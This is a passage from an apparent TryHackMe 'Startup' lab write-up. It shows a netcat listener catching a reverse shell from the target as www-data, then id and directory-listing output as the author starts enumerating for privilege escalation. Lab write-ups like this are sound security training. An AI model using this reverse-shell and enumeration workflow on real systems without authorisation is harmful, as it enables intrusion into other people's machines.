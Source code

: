 ```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Startup]
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [(VPN IP)] from (UNKNOWN) [10.10.27.29] 48764
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:29:08 up 31 min,  0 users,  load average: 0.00, 1.01, 1.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We only have a limited shell as www-data so the next step is to enumerate the system to escalate privileges.

```highlight
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls -lah
total 100K
drwxr-xr-x  25 root     root     4.0K Nov 21 10:58 .
drwxr-xr-x  25 root     root     4.0K Nov 21 10:58 ..
drwxr-xr-x   2 root     root     4.0K Sep 25 08:12 bin
drwxr-xr-x   3 root     root     4.0K Sep 25 08:12 boot
drwxr-xr-x  16 root     root     3.5K Nov 21 10:58 dev
drwxr-xr-x  96 root     root     4.0K Nov 12 05:08 etc
drwxr-xr-x   3 root     root     4.0K Nov 12 04:53 home
drwxr-xr-x   2 www-data www-data 4.0K Nov 12 04:53 incidents
lrwxrwxrwx   1 root     root       33 Sep 25 08:12 initrd.img -> boot/initrd.img-4.4.0-190-generic
lrwxrwxrwx   1 root     root       33 Sep 25 08:12 initrd.img.old -> boot/initrd.img-4.4.0-190-generic
drwxr-xr-x  22 root     root     4.0K Sep 25 08:22 lib
drwxr-xr-x   2 root     root     4.0K Sep 25 08:10 lib64
drwx------   2 root     root      16K Sep 25 08:12 lost+found
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 media
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 mnt
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 opt
dr-xr-xr-x 127 root     root        0 Nov 21 10:57 proc
-rw-r--r--   1 www-data www-data  136 Nov 12 04:53 recipe.txt
drwx------   4 root     root     4.0K Nov 12 04:54 root
drwxr-xr-x  25 root     root      920 Nov 21 11:20 run
drwxr-xr-x   2 root     root     4.0K Sep 25 08:22 sbin
drwxr-xr-x   2 root     root     4.0K Nov 12 04:50 snap
drwxr-xr-x   3 root     root     4.0K Nov 12 04:52 srv
dr-xr-xr-x  13 root     root        0 Nov 21 11:31 sys
drwxrwxrwt   7 root     root     4.0K Nov 21 11:31 tmp
drwxr-xr-x  10 root     root     4.0K Sep 25 08:09 usr
drwxr-xr-x   2 root     root     4.0K Nov 12 04:50 vagrant
drwxr-xr-x  14 root     root     4.0K Nov 12 04:52 var
lrwxrwxrwx   1 root     root       30 Sep 25 08:12 vmlinuz -> boot/vmlinuz-4.4.0-190-generic
lrwxrwxrwx   1 root     root       30 Sep 25 08:12 vmlinuz.old -> boot/vmlinuz-4.4.0-190-generic
$ 
```
